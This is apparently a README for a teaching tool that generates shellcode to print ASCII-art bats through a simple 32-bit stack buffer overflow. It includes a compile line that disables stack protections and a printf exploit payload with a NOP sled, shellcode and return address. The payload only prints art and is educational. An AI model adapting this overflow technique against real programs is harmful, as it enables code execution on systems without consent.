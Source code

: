 # ascii-art-shellcode
Generate shellcode to print ascii art for simple buffer overflows. Mostly wrote this so I can make examples in class more interesting.

Includes a sample ascii art file taken from <https://asciiart.website/index.php?art=animals/bats>

## Basic Usage
`$ python3 ./ascii_art_shellcode.py bats.ascii`

### Output
`Reading art file bats.ascii
Done reading art file
Need 3 bytes. Adding space characters (\0x20)
Compile line: gcc -fno-builtin -O0 -z execstack -fno-stack-protector -ggdb -mpreferred-stack-boundary=2 -m32 vuln.c -o vuln.out
Run this command to test your overflow:
printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc9\x51\xb8\x09\x20\x20\x20\xfe\xc0\x50\x68\x2e\x2e\x2f\x5c\x68\x20\x20\x2f\x5c\x68\x20\x20\x20\x20\xb8\x5f\x09\x20\x20\xfe\xc4\x50\x68\x5f\x2e\x2e\x5f\x68\x20\x20\x20\x5f\x31\xc0\xb0\x01\xc1\xe0\x10\x05\x2f\x5c\x09\x20\x50\x68\x2f\x5c\x2e\x2e\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x04\xb3\x01\x89\xe1\xb2\x24\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x1f\xd2\xff\xff" | ./vuln.out`

### Using the output
`$ printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc9\x51\xb8\x09\x20\x20\x20\xfe\xc0\x50\x68\x2e\x2e\x2f\x5c\x68\x20\x20\x2f\x5c\x68\x20\x20\x20\x20\xb8\x5f\x09\x20\x20\xfe\xc4\x50\x68\x5f\x2e\x2e\x5f\x68\x20\x20\x20\x5f\x31\xc0\xb0\x01\xc1\xe0\x10\x05\x2f\x5c\x09\x20\x50\x68\x2f\x5c\x2e\x2e\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x04\xb3\x01\x89\xe1\xb2\x24\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xff\xd1\xff\xff" | ./vuln.out
0xffffd1ff`
<pre>/\../\
    __..__
        /\../\</pre>
`   Segmentation fault`

Note, you might need to change the last few bytes of the shellcode to match the address that the sample vulnerable program spits out, depending on how you executed the program. Running it in an IDE tends to offset things a bit.
